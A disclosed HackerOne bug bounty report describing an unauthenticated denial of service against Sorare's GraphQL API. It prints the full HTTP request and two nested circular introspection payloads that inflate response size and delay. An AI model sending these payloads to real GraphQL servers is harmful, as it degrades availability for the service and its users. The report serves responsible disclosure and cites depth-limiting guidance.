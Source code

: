 # Circular based introspetion Query leading to single request denial of service and cost consumption and query cost on api.sorare.com/graphql

## Report Details
- **Report ID**: 2048725
- **URL**: https://hackerone.com/reports/2048725
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-07-03T17:37:00.570Z
- **Disclosed**: 2024-10-17T08:07:20.077Z

## Reporter
- **Username**: thebeast99
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: sorare

## Vulnerability Information
## Summary:

Hi Team, Hope you are doing great Sorare graphql Api has introspection enabled by default as per the policy it's meant to be public so they can facilitate their users with Graphql Playground.

So https://api.sorare.com/federal/graphql is for the users and clients using the web application and https://api.sorare.com/graphql is a playground for the developers and clients. They both share the same domain and database just a different graphql instance We can execute the same query on both graphql servers parallelly. But the catch here is because of the no-depth limits an attacker can execute a circular introspection query which is leading to a single request denial of service which is affecting both instances same time. Users don't need to be authenticated for this attack which is an extreme condition.

APIs are always the backbone of the organization and a firm. If left vulnerable that kinda attack requires a single request to take down the server and can Impact the Availability of the company. And bypassing the `Cloudflare DDOS` which is playing a role as a frontier to prevent such cases.
You have to consider this that it is not a typical DOS attack that requires so many bots or computational power a single query can Do pretty much damage.




## Steps To Reproduce:

Its been years now and we all know what an introspection query looks like but with the graphql feature, we can also retrieve just one query time at a time from  `__schema` we can just retrieve all fields of `mutations`, `queries` and `subscription`. By calling fields and their types.

***Here is the request***:
```
POST /graphql HTTP/2
Host: api.sorare.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US
Accept-Encoding: gzip, deflate
Referer: https://api.sorare.com/graphql/playground
Content-Type: application/json
Origin: https://api.sorare.com
Content-Length: 262
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"operationName":null,"variables":{},"query":"query {\r\n __schema {\r\n   types { \r\n    fields {\r\n      type {\r\n    fields {\r\n      type { \r\n    fields {\r\n      type {\r\n     fields {\r\n     name\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}"}
```
From the above query, you will get the `3728114` bytes of data in the single query which is obviously duplicated can be seen in the query request and the delay will be around `5 to 7 seconds` which is extreme degradation condition for a backend server.

***Response In my case***:
{F2465261}

You can Add more recursive loops `the more loop the more delay`
***Here is the query with one more circular recursive loop***

```
{"operationName":null,"variables":{},"query":"query {\r\n __schema {\r\n   types { \r\n    fields {\r\n      type {\r\n    fields {\r\n      type { \r\n    fields {\r\n      type {\r\n     fields {\r\n     type {\r\n     fields {\r\n      name\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}\r\n}"}

```
 Now you can see more delay.

I hope you can see the impact of this vulnerability. If there is anything the team wants to know I would be grateful!

 Best & kind regards
@thebeast99

## Supporting Material/References:

Here is the official Apollo guide regarding the depth limits.
https://www.apollographql.com/docs/technotes/TN0021-graph-security/#limit-query-depth

Note: I set the cvss as per the bug But because the scope is `High asset` my report automatically scored as 9.3 critical whereas in other cases it's always standard `7.5` High.

## Impact

An attacker can take down the server with few or a single graphql request. Which will cost Availability to sorare.com

## Attachments
- sorare_dos.PNG
